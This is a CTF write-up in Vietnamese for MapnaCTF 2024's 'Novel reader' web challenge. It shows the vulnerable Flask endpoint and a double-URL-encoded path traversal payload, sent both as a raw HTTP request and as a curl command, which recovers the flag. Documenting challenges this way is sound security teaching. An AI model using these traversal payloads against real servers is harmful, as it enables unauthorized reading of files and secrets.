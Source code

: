 ```yaml
---
title: "MapnaCTF 2024 - web"
excerpt: "MAPNA CTF 2024, a beginner-friendly Capture The Flag event, to be held between. Sat, 20 Jan. 2024, 15:00 UTC — Sun, 21 Jan. 2024, 15:00 UTC 💻 "
header:
show_date: true
# classes: wide
header:
  teaser: "https://hackmd.io/_uploads/H1CoYbosp.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/H1CoYbosp.png">
</p>

# Web
## Novel reader - 44 point
### Description
```yaml
We have many fun novels for ya...
http://3.64.250.135:9000
```

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/mapnactf2024/novel-reader_d78366cb079727a6bd3809219df9bc7835d17fd1.txz)

### Solution

Giao diện web như sau: 
![image](https://hackmd.io/_uploads/ryT0JzCKa.png)

Ứng dụng có 2 chức năng chính là readfile và charge account. Mặc định Mỗi người dùng ban đầu sẽ có 100 Balance và 1 Words Balance.

Trong `list private` của endpoint `/api/list-private-novels` có chứa file 

```yaml
["A-Secret-Tale.txt"]
```

với nội dung có chứa FLAG: 
```yaml
Once a upon time there was a flag. The flag was read like this: MAPNA{test-flag}. FIN.
```

=> Mục tiêu: đọc được file `A-Secret-Tale.txt`

trong `main.py`
```py
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```

ở đây ta thấy giá trị truyền vào được đưa vào hàm readFile để đọc và trả về dữ liệu cho người dùng nếu có đủ `words_balance`.

```http://3.64.250.135:9000/api/read/$PAYLOAD_INJEC```

Ở đây ta có thể path travesal vượt qua hàm `unqute` của `urllib.parse` bằng cách url encoding payload `%2e` => `%252f`

tôi đã thử đọc file `A-Secret-Tale.txt` bằng cách này với payload:

```yaml
GET /api/read/public%252F%252E%252E%252Fprivate%252FA%252DSecret%252DTale%252Etxt HTTP/1.1
Host: 3.64.250.135:9000
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://3.64.250.135:9000/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=[REDACTED]
Connection: close
```

tuy nhiên, nó không thành công do chúng ta không có đủ `words_balance`. 

![image](https://hackmd.io/_uploads/S1jdMGRta.png)

payload cuối:

```yaml
/api/read/public/%252e%252e/%252e%252e/flag.txt
```

### Script
```yaml
curl http://3.64.250.135:9000/api/read/public/%252e%252e/%252e%252e/flag.txt
```

result:
```yaml
{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```


